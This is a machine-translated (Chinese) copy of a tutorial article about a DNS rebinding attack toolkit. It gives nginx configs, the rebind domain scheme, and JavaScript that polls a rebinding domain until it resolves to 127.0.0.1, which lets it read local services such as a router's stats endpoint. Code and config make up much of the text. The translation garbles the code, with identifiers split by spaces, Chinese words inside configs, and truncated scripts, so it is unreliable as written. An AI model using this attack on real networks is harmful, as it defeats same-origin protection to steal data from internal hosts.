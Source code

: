 # DNS 重新绑定工具:带有自定义脚本的 DNS 重新绑定工具

> 原文：<https://kalilinuxtutorials.com/dns-rebinding-tool/>

[![DNS Rebinding Tool : DNS Rebind Tool With Custom Scripts](img/1de6b9be22f8cffb31adadaba7b3e529.png "DNS Rebinding Tool : DNS Rebind Tool With Custom Scripts")](https://1.bp.blogspot.com/-7KCtm48Ral8/YRPw7yGq58I/AAAAAAAAOXc/c6VvXwAu-EcadCYDpbl0kYWz87x4LwgHgCLcBGAsYHQ/s16000/xdr.PNG)

这个项目是一个多合一的工具包，用来测试进一步的 **DNS 重新绑定**攻击，以及我对这类攻击的理解。它由一个 web 服务器和一个只响应查询的伪 DNS 服务器组成。

web 服务器的根索引允许使用简单的 web gui 配置和运行攻击。参见 [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one/) 。

托管 web 服务器的基本 nginx 配置

服务器{
监听 80；
server _ name dnsrebindtool . 43z . one；
location/{
proxy _ pass http://localhost:5000；
}
}

**也读作-[subsh:在线子域检测脚本](https://kalilinuxtutorials.com/sub-sh-online-subdomain-detect-script/)**

web 服务器的/attack route 读取应该提供 basic64 编码的 javascript 的 GET 参数`script`,并用嵌入在常规 HTML 页面中的解码代码(包装在 setTimeout 周围)进行响应。

%科尔·"http://dnsrebindtool.43z.one/attack？script = YWxlcnQoMSk = "
<html>
<script>

setTimeout(function(){
alert(1)
}，3000)
</script>
</html

在我的域名 43z.one 的注册器中，我为子域`rebind`设置了一个 NS 记录，指向托管这个工具的 IP。

**NS A 81.4.124.10
重新绑定 NS ns.43z.one**

DNS 服务器只响应这种格式的查询

evcmxfm4g。81-4-124-10 .127-0-0-1。重新绑定。43z .一

第一部分(子域)只是一些随机 id，应该为每个攻击会话生成(web gui 在每次重新加载时都这样做)。第二个是 DNS 服务器在接下来的 2 秒内应该响应的 IP，第三个是在这段时间过后服务器应该响应的 IP。

$ date & & nslookup-type = a evcmxfm 4b . 81-4-124-10.127-0-0-1 . rebind . 43z . one
Fri 2018 年 2 月 2 日 21:18:20 CET
服务器:8.8.8.8
地址:8.8.8.8#53

非权威答案:
名称:evcmxfm 4b . 81-4-124-10.127-0-0-1

最后一个缺失的 peace 是用于重新绑定域的 nginx 配置。应该只将/attack 路径传递给工具，其他路径应该以错误响应。这允许使用除/attack 之外的所有路由攻击端口 80 上的其他服务。(例如/api/monitoring/stats 我的路由器暴露的端点)

服务器{
监听 80；
server _ name * . rebind . 43z . one；
外景/ {
回程 404；
}
位置/攻击{
proxy _ pass http://localhost:5000/attack；
}
}

**DNS 缓存驱逐**

var xhr = new XMLHttpRequest()
xhr . open(' GET '，' czg9g2olz.81-4-124-10.127-0-0-1 . rebind . 43z . one '，false)
xhr.send()
//浏览器第一次看到这个域就查询 dns 服务器
//并得到 81.4.124.10

//睡眠超过 2 秒

xhr.open('GET '，' czg 9g 2 olz . 81

这是这种攻击的问题。为了工作，浏览器必须重新发出新的 dns 查询以获得第二个 IP。理论上，如果您在两次请求之间等待足够长的时间，应该会发生新的查询。我的测试表明，虽然有一个更快，但更积极的方法。这很可能是特定于设置的。需要更多的测试我使用下面的脚本来测量等待变量的最佳值。在运行于 Debian buster/sid 上的 Chromium 62.0.3202.89 上测试。

var WAIT = 200
var start = date . now()

var interval = setInterval(function(){
var xhr = new XMLHttpRequest()
xhr . open(' GET '，'//' + $REBIND_DOMAIN，false)

xhr.send()

if(xhr . status = = 200){
document . body . innerhtml =(date . now()–start)/1000
document . body . innerhtml+= xhr . responsetext
clear interval(interval)
return
}
}，等待)

| 等待值(毫秒) | chrome 发送的请求 | 再次查询 dns 的时间 |
| --- | --- | --- |
| Zero | Seven hundred | Sixty |
| Ten | Seven hundred | Sixty |
| One hundred | Six hundred | Sixty-three |
| One hundred and twenty | Five hundred | Sixty-three |
| One hundred and fifty | four hundred | Sixty-three |
| one hundred and eighty  | four hundred | Seventy-five |
| Two hundred | Three hundred | Sixty-three |
| Two hundred and twenty | Three hundred | sixty-nine |
| Two hundred and fifty | Three hundred | seventy-eight |
| Two hundred and eighty | Three hundred | Eighty-seven |
| Three hundred | Two hundred | Sixty-three |
| Three hundred and twenty | Two hundred | Sixty-seven |
| Three hundred and forty | Two hundred | Seventy-one |
| Three hundred and sixty | Two hundred | Seventy-five |
| Three hundred and eighty | Two hundred | Seventy-nine |
| four hundred | Two hundred | Eighty-three |
| One thousand | One hundred | One hundred and three |

我开始了一个新的回购只是为了探索这个 [dns 缓存驱逐测试](https://github.com/h43z/dns-cache-eviction)

把所有这些放在一起并测试它。

```
echo -e "HTTP/1.1 200 OK\n\n TOPSECRET" | sudo nc -lvp 80 -q1 127.0.0.1
```

这个 netcat 实例提供了一些我想访问的内容。我保留默认的重新绑定域
**$ RANDOM $ . 81-4-124-10.127-0-0-1 . rebind . 43z . one**和默认脚本

var start = date . now()

var interval = setInterval(function(){
var xhr = new XMLHttpRequest()
xhr . open(' GET '，'//' + $REBIND_DOMAIN，false)
xhr . send()

if(xhr . status = = 200){
document . body . innerhtml =(date . now()–start)/1000
document . body . innerhtml+= xhr . respon

在 [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one/) 上点击攻击按钮。打开“开发工具网络”选项卡，查看后台发生的情况。对于我来说，大约 60 秒后用字符串`TOPSECRET`填充，需要的时间。DNS 重新绑定绕过了 [SOP](https://en.wikipedia.org/wiki/Same-origin_policy) 。要从 iframe 中获取被破坏的数据，可以使用[窗口。PostMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) 或者在脚本本身中包含将数据转发到另一个攻击者服务器的代码。

[**Download**](https://github.com/h43z/dns-rebinding-tool/)